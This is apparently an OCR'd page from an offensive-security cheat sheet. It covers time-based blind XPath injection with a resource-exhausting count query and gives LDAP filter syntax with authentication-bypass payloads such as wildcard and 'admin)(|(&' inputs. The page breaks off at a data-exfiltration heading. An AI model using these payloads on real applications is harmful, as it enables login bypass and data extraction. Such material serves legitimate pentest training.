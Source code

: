 Force the web application to iterate over the entire XML document exponentially:

Code: xpath

```xpath
count((//.)[count((//.))])
```

Determine whether the first letter of the "username" is "a" based on the time it takes: if it is, the query will utilize a significant processing time, otherwise, it won't.

Code: xpath

```xpath
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1
```

## LDAP Injection

#### LDAP Search Filter Syntax

| Name | Operand | Example | Example Description |
| --- | --- | --- | --- |
| Equality | `=` | `(name=Kaylie)` | Matches all entries that contain a `name` attribute with the value `Kaylie` |
| Greater-Or-Equal | `>=` | `(uid>=10)` | Matches all entries that contain a `uid` attribute with a value greater-or-equal to `10` |
| Less-Or-Equal | `<=` | `(uid<=10)` | Matches all entries that contain a `uid` attribute with a value less-or-equal to `10` |
| Approximate Match | `~=` | `(name~=Kaylie)` | Matches all entries that contain a `name` attribute with approximately the value `Kaylie` |
| And | `(&()())` | `(&(name=Kaylie)(title=Manager))` | Matches all entries that contain a `name` attribute with the value `Kaylie` and a `title` attribute with the value `Manager` |
| Or | `(\|()())` | `(\|(name=Kaylie)(title=Manager))` | Matches all entries that contain a `name` attribute with the value `Kaylie` or a `title` attribute with the value `Manager` |
| Not | `(!())` | `(!(name=Kaylie))` | Matches all entries that contain a `name` attribute with a value different from `Kaylie` |
| True | `(&)` | `(&)` | Universal True |
| False | `(\|)` | `(\|)` | Universal False |
| Wildcard | `*` | `(name=*a*)` | Matches all entries that contain a name attribute that contains an `a` |

#### Authentication Bypass

| Description | Username | Password | Search Filter |
| --- | --- | --- | --- |
| Regular Authentication | `admin` | `admin` | `(&(uid=admin)(userPassword=admin))` |
| Wildcard Bypass | `*` | `*` | `(&(uid=*)(userPassword=*))` |
| Wildcard Bypass targeting specific user | `admin*` | `*` | `(&(uid=admin*)(userPassword=*))` |
| Universal True Bypass | `admin)(\|(&` | `invalid)` | `(&(uid=admin)(\|(&)(userPassword=invalid)))` |

#### Data Exfiltration
